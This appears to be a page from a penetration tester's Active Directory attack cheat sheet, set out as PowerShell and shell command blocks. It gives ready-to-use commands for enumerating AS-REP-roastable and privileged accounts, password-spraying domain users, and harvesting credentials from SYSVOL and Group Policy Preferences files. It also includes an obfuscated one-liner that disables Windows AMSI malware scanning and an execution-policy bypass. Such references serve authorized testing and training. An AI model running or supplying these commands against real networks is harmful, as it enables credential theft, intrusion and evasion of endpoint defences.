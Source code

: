 ```powershell
Import-Module ActiveDirectory
Get-ADuser -filter * -properties DoesNotRequirePreAuth | where {$._DoesNotRequirePreAuth -eq "True" -and $_.Enabled -eq "True"} | select Name

# Weak domain password policy
net accounts /domain
polenum --username john --password pass123 --domain 10.10.51.11
enum4linux -P -u john -p pass123 -w dom.local 172.21.1.60

# Inactive domain accounts
python ldapdomaindump.py -u example.com\john -p pass123 -d ';' 10.100.20.1
sort -t ';' -k 8 domain_users.grep | grep -v ACCOUNT_DISABLED | awk -F ';' '{print $3, $8}'

# Privileged users with password reset overdue
python ldapdomaindump.py -u example.com\john -p pass123 -d ';' 10.100.20.1
jq -r '.[].attributes | select(.adminCount == [1]) | .sAMAccountName[]' domain_users.json > privileged_users.txt

while read user; do grep ";${user};" domain_users.grep; done < privileged_users.txt | \
  grep -v ACCOUNT_DISABLED | sort -t ';' -k 10 | awk -F ';' '{print $3, $10}'
  
# Users with a weak password
$a = [adsisearcher]”(&(objectCategory=person)(objectClass=user))”
$a.PropertiesToLoad.add(“samaccountname”) | out-null
$a.PageSize = 1
$a.FindAll() | % { echo $_.properties.samaccountname } > users.txt

Import-Module ./adlogin.ps1
adlogin users.txt domain.com password123

# Credentials in SYSVOL and Group Policy Preferences (GPP)
findstr /s /n /i /p password \\example.com\sysvol\example.com\*
mount.cifs -o domain=example.com,username=john,password="pass@123" //10.10.139.115/SYSVOL /mnt
grep -ir 'password' /mnt
```

### Quick tips <a href="#quick-tips" id="quick-tips"></a>



```powershell
# Amsi bypass
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )

# Powershell Execution policy Bypass
powershell -ep bypass

# To input the output of the first command into second command use this powershell technique
# %{} is an alias for ForEach-Object{}
# ?{} is an alias for Where-Object{}
# $_ is variable
<First command> | %{<Second command> -<argument> $_}

# To filter out an object type we can use this technique with pipe.
?{$_.<object> -eq '<value>’'}

# Find local admin access
Find-LocalAdminAccess

# Get Domain sid
Get-DomainSID
```